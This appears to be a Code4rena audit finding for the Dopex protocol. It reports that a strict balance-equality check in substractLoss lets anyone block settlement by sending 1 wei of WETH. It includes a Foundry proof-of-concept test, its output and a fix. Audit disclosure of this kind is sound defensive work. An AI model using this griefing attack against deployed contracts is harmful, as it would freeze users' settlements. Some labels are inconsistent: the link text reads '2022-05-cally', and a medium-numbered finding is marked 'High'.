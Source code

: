 # Dopex

The code under review can be found in [2022-05-cally](https://github.com/code-423n4/2023-08-dopex).

## Findings summary

| ID                                                                                                                                                                                        | Title                                                                                                 | Summary |
| ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------- | ------- |
| [M-01](https://github.com/kazantseff/audits/blob/main/contests/2023-08-dopex.md#m-01-substractloss-function-in-perpetualatlanticvaultlp-can-revert-and-cause-the-settlement-proccess-dos) | `substractLoss` function in PerpetualAtlanticVaultLP can revert and cause the settlement proccess DoS | High    |

## [M-01] `substractLoss` function in PerpetualAtlanticVaultLP can revert and cause the settlement proccess DoS

### Vulnerability details

The `substractLoss()` function of PerpetualAtlanticVaultLP is called in the settlement proccess of PerpetualAtlanticVault and can revert and cause DoS if the malicious user sends 1 wei of collateral to the PerpetualAtlanticVaultLP.
When calling `settle()` in PerpetualAtlanticVault few actions are made:

1.  The collateral is transfered from PerpetualAtlanticVaultLP:

```solidity
 collateralToken.safeTransferFrom(
     addresses.perpetualAtlanticVaultLP,
     addresses.rdpxV2Core,
     ethAmount
   );
```

2. The `substractLoss()` is invoked with ethAmount:

```solidity
IPerpetualAtlanticVaultLP(addresses.perpetualAtlanticVaultLP).subtractLoss(
    ethAmount
  );
```

The root cause of the issues is that `substractLoss()` uses strict equality in the require statement.

```solidity
require(collateral.balanceOf(address(this)) == _totalCollateral - loss,"Not enough collateral was sent out");
```

If prior to the settlement a malicious user transfers 1 wei of WETH to the PerpetualAtlanticVaultLP, this check will always fail since `collateral.balanceOf(address(this)) - ethAmount` will be greater than `_totalCollateral - ethAmount` by 1 wei.

### Impact

The settlement proccess will be DoS'ed.

### Proof Of Concept

```solidity
function testSettleRevert() public {
      // Mint weth to a malicious user
      address maliciousUser = address(1);
      weth.mint(maliciousUser, 1000 * 1e18);

      // make bond
      rdpxV2Core.bond(5 * 1e18, 0, address(this));
      rdpxV2Core.bond(1 * 1e18, 0, address(this));

      vault.addToContractWhitelist(address(rdpxV2Core));
      uint256[] memory _ids = new uint256[](1);

      _ids[0] = 0;
      rdpxPriceOracle.updateRdpxPrice(1e7);
      // the vault balance before attack
      console.log(
          "VaultLp Balance Before attack: ",
          weth.balanceOf(address(vaultLp))
      );
      console.log(
          "VaultLp _totalCollateral before Attack",
          vaultLp.totalCollateral()
      );

      // send 1 wei to PerpetualAtlanticVaultLp
      vm.prank(maliciousUser);
      weth.transfer(address(vaultLp), 1);
      // balance after malicious user transfered 1 wei
      console.log(
          "VaultLp Balance After Attack: ",
          weth.balanceOf(address(vaultLp))
      );
      console.log(
          "VaultLp _totalCollateral after Attack",
          vaultLp.totalCollateral()
      );
      // the settlement reverts due to the check in PerpetualAtlanticVaultLP
      vm.expectRevert("Not enough collateral was sent out");
      rdpxV2Core.settle(_ids);

      // Skip 8 days to call PerpetualAtlanticVault.updateFundingPaymentPointer() to invoke addProceeds()
      skip(691200);
      vault.updateFundingPaymentPointer();
      // The balance is now updated as well as collateral becuase of the addProceeds() function
      console.log(
          "VaultLp Balance After addProceeds() is called: ",
          weth.balanceOf(address(vaultLp))
      );
      console.log(
          "VaultLp _totalCollateral after addProceeds() is called",
          vaultLp.totalCollateral()
      );
      vm.expectRevert("Not enough collateral was sent out");
      // But the settle is still reverting
      rdpxV2Core.settle(_ids);

      // trying to use deposit to fix the issue
      vaultLp.deposit(1e18, address(msg.sender));
      console.log(
          "VaultLp Balance After deposit() is called: ",
          weth.balanceOf(address(vaultLp))
      );
      console.log(
          "VaultLp _totalCollateral after deposit() is called",
          vaultLp.totalCollateral()
      );

      vm.expectRevert("Not enough collateral was sent out");
      // But the settle is still reverting
      rdpxV2Core.settle(_ids);
  }

```

The output of the state:

```
VaultLp Balance Before attack: 100000000000000000000
VaultLp _totalCollateral Before Attack 100000000000000000000

VaultLp Balance After Attack: 100000000000000000001
VaultLp _totalCollateral After Attack 100000000000000000000

VaultLp Balance After addProceeds() is called: 100367540499850000000
VaultLp _totalCollateral after addProceeds() is called 100367540499849999999

VaultLp Balance After deposit() is called: 101367540499850000000
VaultLp _totalCollateral after deposit() is called 101367540499849999999
```

As you can see `_totalCollateral` is always 1 wei lesser than contract balance.

### Recommended Mitigation Steps

Either remove the require check or make it less strict:

```diff
- require(collateral.balanceOf(address(this)) == _totalCollateral - loss,"Not enough collateral was sent out");
+ require(collateral.balanceOf(address(this)) >= _totalCollateral - loss,"Not enough collateral was sent out");
```
